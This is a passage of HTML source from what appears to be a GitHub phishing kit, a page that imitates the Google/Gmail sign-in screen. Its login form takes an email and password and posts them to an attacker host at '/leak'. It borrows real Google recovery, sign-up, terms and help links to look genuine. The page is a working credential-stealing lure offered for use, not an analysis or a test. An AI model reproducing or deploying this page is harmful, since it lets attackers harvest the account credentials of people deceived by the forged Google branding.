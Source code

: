 </div>
<div class="card signin-card clearfix">
<img class="profile-img" src="https://github.com/777yeet/google-phishing-page/raw/master/avatar.png" alt="">
<p class="profile-name"></p>
  <form novalidate="" method="post" action="//attacker.cloudshell.dev/leak">
<label class="hidden-label" for="Email">Email</label>
<input id="Email" name="email" type="email" placeholder="Email" value="" spellcheck="false" class="">
<label class="hidden-label" for="Passwd">Password</label>
<input id="Passwd" name="password" type="password" placeholder="Password" class="">
<input id="signIn" name="signIn" class="rc-button rc-button-submit" type="submit" value="Sign in">
  <label class="remember">
  <input type="checkbox" value="yes" checked="checked">
  <span>
  Stay signed in
  </span>
  <div class="bubble-wrap" role="tooltip">
  <div class="bubble-pointer"></div>
  <div class="bubble">
  For your protection, keep this checked only on devices you use regularly.
  <a href="https://support.google.com/accounts/?p=securesignin&hl=en" target="_blank">Learn more</a>
  </div>
  </div>
  </label>
  <input type="hidden" name="rmShown" value="1">
  <a id="link-forgot-passwd" href="https://accounts.google.com/RecoverAccount?service=mail&continue=https%3A%2F%2Fmail.google.com%2Fmail%2F" class="need-help-reverse">
  Need help?
  </a>
  </form>
</div>
<div class="one-google">
  <p class="create-account">
  <a id="link-signup" href="https://accounts.google.com/SignUp?service=mail&continue=https%3A%2F%2Fmail.google.com%2Fmail%2F&hl=en">
  Create an account
  </a>
  </p>
<p class="tagline">
  One Google Account for everything Google
</p>
<img src="./Gmail_files/logo_strip_2x.png" width="210" height="17" alt="">
</div>
  </div>
  <div class="google-footer-bar">
  <div class="footer content clearfix">
  <ul id="footer-list">
  <li>
  Google
  </li>
  <li>
  <a href="https://accounts.google.com/TOS?loc=PH&hl=en" target="_blank">
  Privacy &amp; Terms
  </a>
  </li>
  <li>
  <a href="http://www.google.com/support/accounts?hl=en" target="_blank">
  Help
  </a>
  </li>
  </ul>
  <div id="lang-vis-control" style="display: inline;">